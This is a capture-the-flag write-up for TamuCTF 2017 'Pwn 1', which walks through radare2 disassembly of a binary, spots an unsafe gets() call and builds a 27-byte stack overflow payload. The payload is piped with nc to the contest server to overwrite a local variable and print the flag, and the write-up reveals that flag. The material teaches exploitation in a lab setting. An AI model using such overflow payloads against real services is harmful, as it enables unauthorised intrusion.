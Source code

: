 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 -A pwn1
```

Now that the binary is opened, we need to analyze its content.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483d0    1 6            sym.imp.gets
0x080483e0    1 6            sym.imp._IO_getc
0x080483f0    1 6            sym.imp.puts
0x08048400    1 6            sym.imp.__libc_start_main
0x08048410    1 6            sym.imp.setvbuf
0x08048420    1 6            sym.imp.fopen
0x08048430    1 6            sym.imp.putchar
0x08048440    1 6            sub.__gmon_start___252_440
0x08048450    1 33           entry0
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           sym.__do_global_dtors_aux
0x08048520    4 43   -> 40   sym.frame_dummy
0x0804854b    4 103          sym.print_flag                                                             
0x080485b2    4 120          main                                                                       
0x08048630    4 93           sym.__libc_csu_init
0x08048690    1 2            sym.__libc_csu_fini
0x08048694    1 20           sym._fini

{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> s sym.print_flag
[0x0804854b]> pdf 
┌ (fcn) sym.print_flag 103
│   sym.print_flag ();
│           ; var int local_dh @ ebp-0xd
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x08048606 (main)
│           0x0804854b      55             push ebp
│           0x0804854c      89e5           ebp = esp
│           0x0804854e      83ec18         esp -= 0x18
│           0x08048551      83ec0c         esp -= 0xc
│           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
│           0x08048559      e892feffff     sym.imp.puts ()
│           0x0804855e      83c410         esp += 0x10
│           0x08048561      83ec08         esp -= 8
│           0x08048564      68d3860408     push 0x80486d3
│           0x08048569      68d5860408     push str.flag.txt                                           
│           0x0804856e      e8adfeffff     sym.imp.fopen ()                                            
│           0x08048573      83c410         esp += 0x10
│           0x08048576      8945f4         dword [local_ch] = eax
│       ┌─< 0x08048579      eb10           goto 0x804858b
│       │      ; JMP XREF from 0x080485a0 (sym.print_flag)
│      ┌──> 0x0804857b      0fbe45f3       eax = byte [local_dh]
│      |│   0x0804857f      83ec0c         esp -= 0xc
│      |│   0x08048582      50             push eax
│      |│   0x08048583      e8a8feffff     sym.imp.putchar ()
│      |│   0x08048588      83c410         esp += 0x10
│      ↑│      ; JMP XREF from 0x08048579 (sym.print_flag)
│      |└─> 0x0804858b      83ec0c         esp -= 0xc
│      |    0x0804858e      ff75f4         push dword [local_ch]
│      |    0x08048591      e84afeffff     sym.imp._IO_getc ()
│      |    0x08048596      83c410         esp += 0x10
│      |    0x08048599      8845f3         byte [local_dh] = al
│      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff
│      └──< 0x080485a0      75d9           if (var) goto 0x804857b
│           0x080485a2      83ec0c         esp -= 0xc
│           0x080485a5      6a0a           push 0xa
│           0x080485a7      e884feffff     sym.imp.putchar ()
│           0x080485ac      83c410         esp += 0x10
│           0x080485af      90             
└           0x080485b0      c9             
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e`, we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the current function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` which belongs to `main` function. Lets see whats inside it.

{{< highlight r2 "hl_lines=30 31 32 34 35 36" >}}
[0x0804854b]> pdf @ main   
            ;-- main:
┌ (fcn) main 120
│   main ();
│           ; var int local_27h @ ebp-0x27
│           ; var int local_ch @ ebp-0xc
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x08048467 (entry0)
│           0x080485b2      8d4c2404       ecx = [local_4h]
│           0x080485b6      83e4f0         esp &= 0xfffffff0
│           0x080485b9      ff71fc         push dword [ecx - 4]
│           0x080485bc      55             push ebp
│           0x080485bd      89e5           ebp = esp
│           0x080485bf      51             push ecx
│           0x080485c0      83ec24         esp -= 0x24
│           0x080485c3      a130a00408     eax = dword obj.stdout
│           0x080485c8      6a00           push 0
│           0x080485ca      6a00           push 0
│           0x080485cc      6a02           push 2
│           0x080485ce      50             push eax
│           0x080485cf      e83cfeffff     sym.imp.setvbuf ()
│           0x080485d4      83c410         esp += 0x10
│           0x080485d7      83ec0c         esp -= 0xc
│           0x080485da      68de860408     push str.Enter_the_secret_word:
│           0x080485df      e80cfeffff     sym.imp.puts ()
│           0x080485e4      83c410         esp += 0x10
│           0x080485e7      c745f4000000.  dword [local_ch] = 0
│           0x080485ee      83ec0c         esp -= 0xc
│           0x080485f1      8d45d9         eax = [local_27h]                                           
│           0x080485f4      50             push eax                                                    
│           0x080485f5      e8d6fdffff     sym.imp.gets ()                                             
│           0x080485fa      83c410         esp += 0x10
│           0x080485fd      817df41eab11.  var = dword [local_ch] - 0xca11ab1e                         
│       ┌─< 0x08048604      7507           if (var) goto 0x804860d                                     
│       │   0x08048606      e840ffffff     sym.print_flag ()                                           
│      ┌──< 0x0804860b      eb10           goto 0x804861d
│      ││      ; JMP XREF from 0x08048604 (main)
│      │└─> 0x0804860d      83ec0c         esp -= 0xc
│      │    0x08048610      68f5860408     push str.That_is_not_the_secret_word_
│      │    0x08048615      e8d6fdffff     sym.imp.puts ()             ; int puts(const char *s)
│      │    0x0804861a      83c410         esp += 0x10
│      │       ; JMP XREF from 0x0804860b (main)
│      └──> 0x0804861d      b800000000     eax = 0
│           0x08048622      8b4dfc         ecx = dword [local_4h_2]
│           0x08048625      c9             
│           0x08048626      8d61fc         esp = [ecx - 4]
└           0x08048629      c3             
{{< /highlight >}}



We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function.

So what we need to do? As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then, if we input more characters than it is supposed to store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
